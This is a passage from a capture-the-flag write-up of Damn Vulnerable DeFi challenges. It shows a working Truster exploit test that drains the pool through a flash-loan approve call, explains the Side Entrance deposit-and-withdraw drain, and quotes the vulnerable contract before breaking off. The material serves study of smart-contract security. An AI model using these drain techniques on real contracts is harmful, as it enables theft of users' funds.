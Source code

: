 ```jsx
it('Execution', async function () {
        /** CODE YOUR SOLUTION   HERE */
        let ABI = ["function approve(address to,uint256 amount)"];
        let iface = new ethers.utils.Interface(ABI);
        const data = iface.encodeFunctionData("approve",[
            player.address,
            TOKENS_IN_POOL,
        ])
        await pool.flashLoan(0,player.address,token.address,data);
        await token.connect(player).transferFrom(pool.address,player.address,TOKENS_IN_POOL);
    });
```

- **encodeFunctionData is an ether JS v5 way to encode through ABI and interface**

# 4. Side Entrance

- Similar to the above Truster in this problem arbitrary call was made to a function that did not contain any code and it was **external payable** so we can write an attacker contract in which we can call another function that was already in the main contract, to malfunction and send all funds to attacker’s address.
- Here in the ******************************SideEntranceLenderPool.sol****************************** there is an flashLoan() function that calls an execute function which is an empty external payable function that can be modified to call the deposit function with the amount = poolBalance that is 1000 ETH and after that, we call ****************withdraw()**************** function, and transfer amount to **msg.sender** that is attacker’s address.
- **Problem:**

```solidity
interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    mapping(address => uint256) private balances;

    error RepayFailed();

    event Deposit(address indexed who, uint256 amount);
    event Withdraw(address indexed who, uint256 amount);

    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value; //@audit overflow/underflow chances
        }
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw() external {
        // @audit what will happen if we call withdraw multiple times?
        uint256 amount = balances[msg.sender];

        delete balances[msg.sender]; //@audit first deleted from mapping no problem
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount);
    }

    function flashLoan(uint256 amount) external {
```
